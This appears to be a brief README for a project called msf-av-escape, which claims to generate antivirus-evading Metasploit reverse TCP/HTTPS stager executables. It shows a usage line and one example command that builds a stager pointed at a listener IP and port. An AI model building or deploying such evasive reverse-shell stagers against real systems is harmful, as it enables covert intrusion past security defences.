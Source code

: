 msf-av-escape
=============

Metasploit reverse TCP/HTTPS stagers fully undetectable with Python binary generator. 

# Usage

```
Usage gen_exe.py <template file> <ip> <port> 
```

# Example

```
./gen_exe.py reverse_tcp/rev_tcp.exe 192.168.1.10 8080 > ~/msf_tcp_stager.exe

```
